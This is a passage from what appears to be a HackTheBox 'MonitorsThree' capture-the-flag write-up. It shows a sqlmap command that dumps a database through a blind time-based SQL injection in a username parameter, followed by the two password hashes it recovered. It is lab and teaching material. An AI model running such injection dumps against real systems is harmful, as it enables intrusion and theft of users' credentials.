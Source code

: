 ![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree5.png)

Used sqlmap:
`sqlmap -r req --dump --batch`

Then it is seen that username parameter is vulnerable to Blind time-based SQLi and waiting for a while for SQLMAP to do its work I finally get password hashes:
```
+----------------------------------+
| password                         |
+----------------------------------+
| 1e68b6eb86b45f6d92f8f292428f77ac |
| 31a181c8372e3afc59dab863430610e8 |
+----------------------------------+
```
